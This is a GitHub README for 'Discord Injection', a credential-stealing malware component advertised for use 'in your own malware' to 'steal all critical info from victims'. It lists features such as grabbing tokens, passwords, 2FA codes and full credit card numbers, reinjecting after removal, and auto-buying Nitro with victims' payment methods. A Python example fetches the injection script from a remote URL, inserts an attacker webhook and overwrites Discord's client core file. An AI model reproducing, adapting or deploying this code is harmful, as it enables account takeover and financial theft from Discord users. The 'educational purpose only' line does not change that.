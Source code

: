 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

##### ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ [🌌・Discord](https://cheataway.com) ⋮  [💉・Setting up the injection](https://github.com/Rdimo/Discord-Injection#configure-discord-injection) ⋮ [💻・License](https://github.com/Rdimo/Discord-Injection#license) ⋮ [📜・ChangeLog](https://github.com/Rdimo/Discord-Injection#changelog)

<h2 align="center">
  Discord-Injection was made by

  Love ❌ code ✅
</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled.  \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

--- 

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!
```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```
Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    webhook: '%WEBHOOK%', //your discord webhook there obviously
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```
> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example
Example of how you can implement this injection into your own malware
```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir) 
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-2\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?
No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/Todo
- Grab ip, name etc...
- Fix bugs
- More settings

## :seedling:・Inspiration
Discord-Injection is inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License 

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility 

・Selling this ==**Free**== injection is forbidden

・If you make a copy of this/or fork it, it ==**must**== be open-source and have credits linking to this repo

## 💭・ChangeLog
```diff

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```
